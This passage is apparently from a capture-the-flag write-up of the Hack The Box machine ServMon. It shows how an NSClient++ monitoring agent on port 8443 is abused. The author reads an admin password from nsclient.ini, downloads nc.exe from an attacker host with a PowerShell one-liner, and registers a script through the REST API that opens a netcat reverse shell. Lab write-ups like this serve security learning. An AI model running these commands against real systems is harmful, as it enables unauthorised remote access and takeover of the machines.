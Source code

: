 So I google about this and get to know its running in the port `8443` and we already saw that in our Nmap scan.

> **NSClient** is an agent designed originally to work with Nagios but has since evolved into a fully fledged monitoring agent which can be used with numerous monitoring tools (like Icinga, Naemon, OP5, NetEye Opsview etc).

So I searched for exploits and found this

> [https://www.exploit-db.com/exploits/46802](https://www.exploit-db.com/exploits/46802)

So First let's check the `nsclient.ini`

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-servmon/Untitled%204.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-servmon/Untitled%204.png)

It gives us a web administrator password and you can see the allowed hosts is `127.0.0.1` of the box itself.

According to the exploit we need to access the website and add scripts to run which gives us reverse shell but Web Interface having some issues for me. So I searched for other ways and found its **API** docs.

> **Reference:** [https://docs.nsclient.org/api/rest/scripts](https://docs.nsclient.org/api/rest/scripts)

First I uploaded `nc.exe` to the machine.

```bash
powershell -c (New-Object Net.WebClient).DownloadFile('http://10.10.14.6:8000/nc.exe', 'nc.exe')
```

Following the docs we can add a script which we need to execute in our case it is `nc.exe` to get a reverse shell.

> The scripts API can be used to read view and modify the scripts which NSClient++ can run.

```bash
nadine@SERVMON C:\Users\Nadine\AppData\Local\Temp>curl -s -k -u admin -X PUT https://localhost:8443/api/v1/scripts/ext/scripts/check_new.bat --data-binary "C:\Users\Nadine\AppData\Local\Temp\nc.exe 10.10.14.6 5555 -e cmd.exe"
Enter host password for user 'admin':
Added check_new as scripts\check_new.bat
```
